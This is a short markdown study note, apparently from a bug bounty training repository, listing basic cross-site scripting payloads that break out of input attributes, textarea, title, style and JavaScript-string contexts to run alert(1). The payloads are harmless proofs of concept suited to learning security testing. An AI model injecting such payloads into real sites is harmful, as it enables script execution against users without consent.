





# XSS (HackingHub)

## Basic XSS

```html
<script>alert("1")</script>
```



## Escaping Context

### Input

```html
<input value="test">
```

```html
"><script>alert(1)</script>
```



```html
" onmouseover=alert(1);//
```



### Textarea

```html
<textarea>test</textarea>
```

```html
</textarea><script>alert(1)</script>
```



### Title

```html
<title>Welcome, test</title>
```

```html
</title><script>alert(1)</script>
```

### Style

```html
<style>
        body {
            background-color: test;
        }
    </style>
```

```html
</style><script>alert(1)</script>
```

### Javascript variables

```html
<script>
var name = 'test'; $('span#name').html( name );
</script>
```

```html
test';alert(1)//
```



## Procedencia

| Repositorio | Archivo original | Commit de origen |
| --- | --- | --- |
| CBBH | BB/hackinghub/Client side/XSS/XSS.md | 284a0a42d23a00f2b47b7460371a517a14cb6261 |

[Índice de categoría](../README.md) · [Inicio](../../README.md)
